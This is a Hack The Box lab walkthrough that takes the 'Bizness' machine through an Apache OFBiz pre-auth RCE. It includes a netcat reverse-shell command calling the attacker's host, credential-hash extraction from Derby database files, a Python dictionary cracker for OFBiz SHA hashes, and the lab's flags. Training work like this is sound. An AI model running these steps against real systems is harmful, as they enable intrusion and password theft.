

**Machine created by:** [C4rm3l0](https://app.hackthebox.com/users/458049)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.129.255.102 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 18:45 AEDT
Nmap scan report for 10.129.255.102
Host is up (0.31s latency).
Not shown: 2497 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.129.255.102 bizness.htb
```

After that I visit [bizness.htb](https://bizness.htb) and see nothing of particular interest...

`dirstalk` gives 0 results, maybe there's subdomains?

No subdomains from scanning with FFuF, until I notice something in the page footer: `Powered by Apache OFBiz`

Searching for `Apache OFBiz CVE` yields [CVE-2023-50968 (SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2023-50968) and [CVE-2023-51467 (Pre-Auth RCE)](https://nvd.nist.gov/vuln/detail/CVE-2023-51467).

## Initial Access & User Flag

Using a [PoC of the Pre-Auth RCE](https://github.com/JaneMandy/CVE-2023-51467-Exploit/releases/tag/Apache-Ofbiz), I set my URL to `https://bizness.htb/` then used `whoami` to find myself as `ofbiz`, and then using `cat /home/ofbiz/user.txt` to get the user flag.

Flag: `eff96303c752d6ac896258dd16aa422e`

I setup a listener for a reverse shell:

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

Using the payload `nc 10.10.***.*** 4444 -e /bin/bash` triggered the reverse shell (Thank you [RevShells](https://www.revshells.com/))!

```
[19:05:59] 10.129.255.102:58820: normalizing shell path
[19:06:03] 10.129.255.102:58820: registered new host w/ db
[19:06:08] listener: 10.10.***.***:4444: linux session from 10.129.255.102:58820
           established
```

## Root Flag

Now once we connect its a little unclear where to pivot and took me alot of exploring to find, but the eventual trick was this:

```
$ find /opt/ofbiz -name '*Admin*' -type f 2>/dev/null
/opt/ofbiz/applications/accounting/groovyScripts/admin/AcctgAdminServices.groovy
/opt/ofbiz/applications/accounting/minilang/test/AutoAcctgAdminTests.xml
/opt/ofbiz/applications/product/template/product/EditProductQuickAdmin.ftl
/opt/ofbiz/applications/product/groovyScripts/catalog/product/EditProductQuickAdmin.groovy
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminClient.java
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminServer.java
/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-PostgreSQL.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Oracle.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Derby.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-MySQL.xml
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$OfbizSocketCommand.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$1.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminClient.class
/opt/ofbiz/plugins/solr/src/main/java/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.java
/opt/ofbiz/plugins/lucene/template/AdminSearch.ftl
```

Looking in `/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml` is the following:
```
$ cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
```

We can see its looking for a SHA password hash, and with a little bit of perusing around the files, there is a Derby database in `/opt/ofbix/runtime/data/derby/ofbiz`, so we can read the `seg0` files for a hash.

I do `cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/* | strings | grep 'SHA'` to find the hash: 
```
$ cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/* | strings | grep 'SHA'
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```


Now unfortunately we can't just chuck `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` into hashcat as they use [a different format](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) from reading their Java code.

So we have to rebuild their hash format in Python so we can break it!

```python
import hashlib
import os
import base64, sys
hashType="SHA1"
salt="d"
lookfor = "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
dictionary = "/..../rockyou.txt"

def cryptBytes(hashType, salt, byte):
    if not hashType:
        hashType = "SHA1"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf8')
    h = hashlib.new(hashType)
    h.update(salt.encode('utf8'))
    h.update(byte)
    hb=h.digest()
    return f"${hashType.replace('1','')}${salt}${base64.urlsafe_b64encode(hb).decode('utf-8').replace('+','.').replace('=','')}"

c=0
t=0
with open(dictionary,'r',errors='surrogateescape') as f:
    for l in f:
        t+=1
with open(dictionary,'r',errors='surrogateescape',encoding='latin-1') as f:
    for l in f:
        c+=1
        try:
            l=l.strip().encode('utf-8')
        except:
            continue
        hashed=cryptBytes(hashType,salt,l)
        if hashed==lookfor:
            print(f'{l} ({hashed})')
            sys.exit()
        if c%100000 == 0:
            print(f'{c}/{t}')
```

I run my script:
```
$ python3 crack.py
100000/14344391
200000/14344391
300000/14344391
400000/14344391
500000/14344391
600000/14344391
700000/14344391
800000/14344391
900000/14344391
1000000/14344391
1100000/14344391
1200000/14344391
1300000/14344391
1400000/14344391
b'monkeybizness' ($SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I)
```

A match! `monkeybizness`!

Executing `su` with the password from the script gives us the root flag.

Flag: `8ff8c856693f95f880d4d76f5a91fefc`

